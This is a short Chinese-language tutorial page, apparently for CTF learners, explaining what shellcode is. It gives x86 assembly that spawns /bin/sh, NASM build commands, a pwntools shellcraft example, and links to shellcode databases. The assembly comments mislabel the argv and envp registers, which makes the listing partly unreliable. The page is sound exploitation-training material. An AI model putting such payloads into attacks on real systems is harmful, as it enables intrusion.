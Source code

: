 # Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.  

## 编写

以下是一段简单的 shellcode 代码:  

```asm
# linux/x86 execve("/bin/sh", 0, 0)
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve NR
    int  0x80     ;; syscall
```

在 Linux 下可以使用 [NASM](https://www.nasm.us/) 进行编译:  

```sh
nasm -f elf32 shellcode.asm             # 编译
ld -m elf_i386 -o shellcode shellcode.o # 链接
objdump -d shellcode                    # 打印反汇编结果
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断/syscall即可. 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [MSF](./Metasploit.md) 生成 shellcode.
- 利用 pwntools 生成特定架构和系统的 shellcode.

    ```py
    from pwn import *
    context(arch = 'i386', os = 'linux') # linux/x86
    print shellcraft.sh()      # 输出 shellcode 汇编代码
    print asm(shellcraft.sh()) # 输出 shellcode 二进制代码
    ```

## 拓展

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
